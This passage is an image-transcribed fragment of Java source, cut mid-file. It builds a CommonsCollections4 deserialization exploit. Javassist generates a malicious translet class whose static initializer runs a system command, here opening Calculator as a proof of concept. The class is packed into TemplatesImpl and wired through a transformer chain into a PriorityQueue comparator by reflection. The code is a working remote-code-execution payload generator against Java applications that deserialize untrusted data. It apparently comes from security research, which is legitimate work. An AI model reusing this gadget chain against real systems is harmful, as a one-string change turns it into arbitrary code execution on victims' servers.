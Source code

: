 ```java
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static PriorityQueue CommonsCollections4() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("c3p0Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetCode);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        return priorityQueue;
    }

    public static byte[] toByteArray(InputStream in) throws Exception {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static void main(String[] args) throws Exception {
```